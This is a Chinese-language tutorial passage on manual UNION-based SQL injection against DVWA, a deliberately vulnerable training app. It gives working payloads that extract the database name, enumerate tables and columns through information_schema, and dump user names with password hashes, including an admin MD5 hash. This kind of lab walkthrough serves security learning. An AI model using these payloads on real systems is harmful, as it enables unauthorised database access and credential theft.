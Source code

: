 **下面对四种级别的代码进行分析。**

**猜数据库**

```
1' union select 1,database()#

payload利用另一种方式：

1' union select user(),database()#

Version()#

得到数据库名：dvwa

PS：union查询结合了两个select查询结果，根据上面的order by语句我们知道查询包含两列，为了能够现实两列查询结果，我们需要用union查询结合我们构造的另外一个select.注意在使用union查询的时候需要和主查询的列数相同。
```

**猜表名**

```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema =database()#

得到表名：guestbook,users

group_concat 分组
```

**猜列名**

```
1' union select 1,group_concat(column_name) from information_schema.columns where table_name =0x7573657273#

1' union select 1,group_concat(column_name) from information_schema.columns where table_name ='users'#

(用编码就不用单引号，用单引号就不用编码)

 得到列：

user_id,first_name,last_name,user,password,avatar,last_login,failed_login,id,username,password
```

**猜用户数据**

```
列举出几种payload:

1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #

1' union select null,concat_ws(char(32,58,32),user,password) from users #  

1' union select null,group_concat(concat_ws(char(32,58,32),user,password)) from users #  

得到用户数据：

admin 5f4dcc3b5aa765d61d8327deb882cf99
```
